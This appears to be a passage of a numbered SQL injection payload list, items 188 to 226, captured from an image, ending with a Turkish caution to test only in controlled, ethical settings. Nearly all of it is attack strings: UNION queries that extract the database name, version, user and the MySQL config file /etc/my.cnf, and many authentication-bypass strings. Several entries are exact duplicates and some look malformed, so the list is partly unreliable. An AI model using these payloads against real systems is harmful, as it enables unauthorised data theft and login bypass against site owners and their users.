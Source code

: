 188. `' UNION ALL SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT GROUP_CONCAT(column_name)), 0x3a, (SELECT DATABASE()))) AS result)--`
189. `' UNION SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT LOAD_FILE('/etc/my.cnf')), 0x3a, (SELECT DATABASE()))) AS result)--`
190. `' UNION ALL SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT @@version), 0x3a, (SELECT GROUP_CONCAT(user()))) AS result)--`

### Non-Standard SQL Injection
191. `' OR '1'='1' /*+`
192. `' OR '1'='1' --+`
193. `' OR 1=1/*+`
194. `' OR 1=1--+`
195. `' OR 'a'='a'/*+`
196. `' OR 'a'='a'--+`
197. `' OR 'a'='a'--+`
198. `' OR 1=1/*+`
199. `' OR 1=1--+`
200. `' OR 1=1'--+`
201. `' OR 1=1'/*+`
202. `' OR 1=1'/*+`
203. `' OR 1=1--+`
204. `' OR '1'='1'--+`
205. `' OR 1=1/*+`
206. `' OR 1=1--+`

## SQL Injection for Authentication Bypass
207. `' OR ''='`
208. `' OR '1'='1`
209. `' OR 1=1--`
210. `' OR 1=1#`
211. `' OR 'a'='a`
212. `' OR 1=1--+`
213. `' OR 1=1/*`
214. `' OR '1'='1'--`
215. `' OR '1'='1'/*`
216. `' OR '1'='1'--+`
217. `' OR '1'='1'/*+`
218. `' OR 1=1/*+`
219. `' OR 1=1/*`
220. `' OR 'a'='a'--`
221. `' OR 'a'='a'/*`
222. `' OR 'a'='a'--+`
223. `' OR 'a'='a'/*+`
224. `' OR 1=1--+`
225. `' OR 1=1'--`
226. `' OR 1=1'/*+`

Bu payloadlar genellikle SQL enjeksiyon saldırılarında kullanılır ve veritabanı, uygulama güvenlik açıklarına bağlı olarak farklı etkilere sahip olabilir. Kontrollü bir ortamda test yaptığınızdan ve etik kurallara uyduğunuzdan emin olun.
